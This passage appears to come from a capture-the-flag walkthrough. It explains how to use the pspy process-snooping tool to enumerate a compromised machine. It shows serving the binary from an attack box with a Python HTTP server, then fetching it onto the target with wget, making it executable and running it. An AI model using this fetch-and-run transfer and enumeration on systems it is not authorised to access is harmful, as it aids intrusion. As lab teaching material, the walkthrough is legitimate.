 First of all we do need to locate them. For that I use a tool called **pspy**.

pspy is a command-line tool designed to snoop on processes without the need for root permissions.

It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs.

Also great to demonstrate to your colleagues why passing secrets as arguments on the command line is a bad idea!!

The tool gathers it’s info from procfs scans. Inotify watchers placed on selected parts of the file system trigger these scans to catch short-lived processes.

To download the tool/binary you will need to run it, refer to [https://github.com/CyberLola/pspy](https://github.com/CyberLola/pspy)

Read through it to learn how to use it. Pretty clear, even a n00b like me could figure it out the first time I used it for breaking into a machine a while back.

Next we need to upload this tool into meaghyn's system! The easiest, fastest way in my opinion is through wget.

On you computer/attack box set a

`sudo python3 -m http.server 80`




![alt_text](images/image26.png "image_tooltip")


From the directory you saved the tool ( you need to cd into the pspy directory)

On meaghyn's side, you need the following command

`wget http://YOUR IP:80/pspy64 pspy64`

(pspy64 is the binary we downloaded from github)


![alt_text](images/image27.png "image_tooltip")


You will see the tool being downloaded into meaghyn's machine.

Next, you need to make it executable, so

`chmod +x pspy64`

And it is ready to be used!! To run it, just type

`./pspy64`


![alt_text](images/image28.png "image_tooltip")


Be patient. You will see A LOT of output appearing in front of you!!

Let the tool do its thing and just watch.. and the magic happens :)


![alt_text](images/image29.png "image_tooltip")
